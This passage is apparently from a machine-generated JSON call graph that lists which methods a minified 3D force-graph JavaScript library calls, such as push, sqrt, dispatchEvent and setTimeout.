"EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updatePointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectObjects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromNormalAndCoplanarPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "restart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cbrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "restart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "visitAfter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": 